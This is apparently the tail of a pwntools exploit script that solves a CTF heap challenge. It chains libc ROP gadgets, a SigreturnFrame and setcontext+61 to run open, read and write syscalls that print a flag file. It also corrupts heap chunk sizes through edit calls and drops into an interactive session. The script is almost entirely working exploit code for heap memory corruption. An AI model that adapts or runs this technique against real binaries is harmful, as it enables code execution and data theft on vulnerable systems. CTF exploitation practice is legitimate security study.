 ```

    gadget_addr = libc_base + 0x000000000014b760  #: mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
    pop_rdi_addr = libc_base + 0x2858f
    pop_rsi_addr = libc_base + 0x2ac3f
    pop_rdx_addr = libc_base + 0x5216
    pop_rax_addr = libc_base + 0x45580
    syscall_addr = libc_base + 0x611ea

    # SROP
    fake_frame_addr = heap_base + 0x2080
    frame = SigreturnFrame()
    frame.rax = 2
    frame.rdi = fake_frame_addr + 0xF8
    frame.rsi = 0
    frame.rdx = 0x100
    frame.rsp = fake_frame_addr + 0xF8 + 0x10
    frame.rip = pop_rdi_addr + 1  # : ret

    rop_data = [
        pop_rax_addr,  # sys_open('flag', 0)
        2,
        syscall_addr,

        pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
        0,
        pop_rdi_addr,
        3,
        pop_rsi_addr,
        fake_frame_addr + 0x200,
        syscall_addr,

        pop_rax_addr,  # sys_write(1, heap, 0x100)
        1,
        pop_rdi_addr,
        1,
        pop_rsi_addr,
        fake_frame_addr + 0x200,
        syscall_addr
    ]

    payload = (p64(gadget_addr) + p64(fake_frame_addr) + p64(0) * 2 + p64(setcontext_addr + 61) +
               str(frame)[ 0x28:]).ljust(0xF8, '\x00') + "flag\x00\x00\x00\x00" + p64(0) + flat(rop_data)
    edit(9, payload)

    add(0x430, '13')
    edit(10, 'a' * 0x438 + p64(0x3fe))
    #gdb.attach(sh, "b *__vfprintf_internal+273")
    choice(1)
    sh.sendlineafter("Size: ", str(0x440))
    sh.interactive()


if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh, elf=get_file(), libc=get_libc())
    sh.close()
    log.success('The flag is ' + re.search(r'flag`{`.+`}`', flag).group())
```
